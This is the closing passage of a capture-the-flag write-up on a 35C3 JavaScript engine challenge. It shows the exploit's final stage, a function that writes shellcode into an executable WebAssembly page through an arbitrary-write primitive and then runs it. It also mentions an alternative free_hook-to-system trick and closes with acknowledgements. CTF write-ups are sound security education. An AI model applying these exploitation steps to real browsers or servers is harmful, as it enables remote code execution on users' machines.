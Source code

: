 Once we had these, it was a simple matter of throwing in, and
executing the shellcode:

```js
function stages_after_wasm() {
	for (var i = 0 ; i < shellcode.length ; ++i ) {
		let a = rwx_page_addr + (BigInt(i) * 8n);
		arb_write(a, shellcode[i]);
	}
	wasm_func();
}
```

And there we have it, a shell! Since this no longer relied on the
stack, it was a much more [stable exploit](./exploit.js), and I was
able to run it on the server, and obtain the flag:
`35C3_this_bug_was_a_minus_zero_day`. Quite a fitting flag, won't you
say?

## Concluding Remarks

This challenge was _super_ fun and interesting. I learnt a lot along
the way, even though I was frustrated at times, especially due to the
stack issues at the end. On a discussion with
[Stephen](https://twitter.com/_tsuro/) after I had got the flag, he
said that he too had to get around the weird stack issue, but he'd
done it by overwriting `free_hook` with `system`, and then calling
`console.log` with `sh`. That definitely was an awesome solution as
well, and one that I will keep in mind for the future.

## Acknowledgements

Massive thanks to [Ricky](https://twitter.com/riczho) who gave massive
moral support and kept throwing in ideas when I was about to give up,
after I'd been facing those stack issues. Also, mad props to
[Stephen](https://twitter.com/_tsuro/) for finding this bug, and
having this as a challenge in 35c3. Thanks to
[Carolina](https://twitter.com/zaratec4) for reviewing this writeup
and providing some super helpful suggestions.

---

Write-up by f0xtr0t (Jay Bosamiya) [[https://www.jaybosamiya.com/](https://www.jaybosamiya.com/)]
